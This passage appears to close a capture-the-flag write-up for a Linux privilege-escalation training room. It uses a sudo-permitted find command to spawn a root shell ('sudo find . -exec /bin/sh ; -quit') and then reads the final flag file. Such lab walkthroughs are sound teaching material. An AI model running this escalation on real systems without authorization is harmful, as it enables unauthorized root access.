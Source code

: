 We see Missy can run `find`. Similar to task 6, we can use the GTFO bin we used for that.

![](<../../../.gitbook/assets/image (134).png>)

`sudo find . -exec /bin/sh ; -quit`

![](<../../../.gitbook/assets/image (155).png>)

We are now root, can cat our file for our final flag!

`cat /home/rootflag/flag2.txt`

![](<../../../.gitbook/assets/image (66).png>)

## Congratulations! You have completed the Linux PrivEsc room!
